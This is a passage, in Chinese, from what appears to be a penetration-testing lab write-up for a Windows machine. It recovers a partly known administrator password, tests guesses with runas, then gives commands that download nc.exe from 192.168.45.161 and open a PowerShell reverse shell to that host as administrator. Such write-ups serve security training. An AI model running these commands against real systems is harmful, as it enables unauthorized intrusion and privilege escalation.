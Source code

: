 在该文件上面还有一个密码，解密得到`14WatchD0g+Unknown`（最后一位未知，搜了下这个软件不会解密特殊字符，需要手动破解下

![image-20250310160407814](./PG_win.assets/image-20250310160407814.png)

使用runas命令运行命令尝试输入密码：`14WatchD0g$` （输入正确的密码和错误的回显不一样

![image-20250310162651675](./PG_win.assets/image-20250310162651675.png)

传输nc反弹shell

```
iwr -Uri http://192.168.45.161:90/nc.exe -Outfile nc.exe
runas /user:administrator "C:\Users\viewer\Desktop\nc.exe 192.168.45.161 80 -e powershell"
```

![image-20250310162438349](./PG_win.assets/image-20250310162438349.png)
